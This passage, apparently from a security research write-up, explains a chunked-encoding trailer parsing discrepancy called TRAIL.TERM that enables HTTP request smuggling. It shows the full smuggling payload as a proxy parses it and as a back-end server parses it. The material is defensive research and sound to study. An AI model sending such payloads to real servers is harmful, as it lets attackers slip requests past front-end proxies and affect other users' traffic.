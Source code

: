 These observations lead us to a brand-new set of exploitable parsing leniencies: by placing what one parser interprets as two consecutive line terminators in what another parser interprets as the trailer section, we have once again stumbled upon a new flavor of chunk-based request smuggling.

#### TRAIL.TERM
Consider first the scenario in which the front-end proxy ignores lone `\n` characters in the chunked trailer section, but the back-end web server interprets them as line terminators. In such a scenario, we can smuggle a request past the front-end using the surprisingly simple payload below.

<div style="display: flex; gap: 10px;">
<div style="flex: 1;">

<pre><code>GET /one HTTP/1.1<span class="http-line-break">\r\n</span><span class="http-highlight-text-req"><b>request #1</b></span>
Host: localhost<span class="http-line-break">\r\n</span>
Transfer-Encoding: chunked<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
<span class="http-highlight http-highlight-one"><span class="http-highlight-head http-highlight-one-compl">2<span class="http-line-break">\r\n</span><span class="http-highlight-text">chunk header</span>
</span>xx<span class="http-line-break">\r\n</span><span class="http-highlight-text">chunk body</span>
</span><span class="http-highlight http-highlight-two-compl">0<span class="http-line-break">\r\n</span><span class="http-highlight-text">last chunk</span>
</span><span class="http-highlight http-highlight-three-compl"><span class="http-line-break">\n</span><span class="http-highlight-text">trailer section</span>
GET /two HTTP/1.1<span class="http-line-break">\r\n</span>
Host: localhost<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
</span></code></pre>

<p style="text-align: center; font-weight: bold;">TRAIL interpretation (proxy)</p>
</div>

<div style="flex: 1;">

<pre><code>GET /one HTTP/1.1<span class="http-line-break">\r\n</span><span class="http-highlight-text-req"><b>request #1</b></span>
Host: localhost<span class="http-line-break">\r\n</span>
Transfer-Encoding: chunked<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
<span class="http-highlight http-highlight-one"><span class="http-highlight-head http-highlight-one-compl">2<span class="http-line-break">\r\n</span><span class="http-highlight-text">chunk header</span>
</span>xx<span class="http-line-break">\r\n</span><span class="http-highlight-text">chunk body</span>
</span><span class="http-highlight http-highlight-two"><span class="http-highlight http-highlight-two-compl">0<span class="http-line-break">\r\n</span><span class="http-highlight-text">last chunk</span>
</span><span class="http-line-break">\n</span>
</span>GET /two HTTP/1.1<span class="http-line-break">\r\n</span><span class="http-highlight-text-req"><b>request #2</b></span>
Host: localhost<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
</code></pre>

